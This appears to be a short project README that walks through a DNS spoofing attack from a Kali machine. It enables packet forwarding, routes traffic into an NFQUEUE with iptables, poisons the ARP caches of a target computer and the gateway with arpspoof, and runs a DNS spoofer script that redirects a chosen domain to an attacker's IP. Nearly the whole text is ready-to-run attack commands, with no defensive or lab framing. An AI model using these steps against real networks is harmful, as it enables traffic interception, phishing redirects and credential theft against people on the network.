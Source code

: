 *****Set Up the Environment*****:
Ensure both your Kali machine and the target computer are connected to the same network.

1-- This allows your Kali machine to forward packets between the target and the gateway.
```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
```
2 -- Use iptables to redirect DNS traffic to the netfilterqueue that your script will process.

```sh
sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0
sudo iptables -I INPUT -j NFQUEUE --queue-num 0
```
3 -- Run arpspoof to poison the ARP cache of the target and the gateway.

```sh
sudo arpspoof -i [interface] -t [target_ip] [gateway_ip]
sudo arpspoof -i [interface] -t [gateway_ip] [target_ip]
```
4 -- Now, you can run your DNS spoofer script on your Kali machine.
```python3
sudo python3 dnsspoofer.py [target_domain] [spoofed_ip]
```
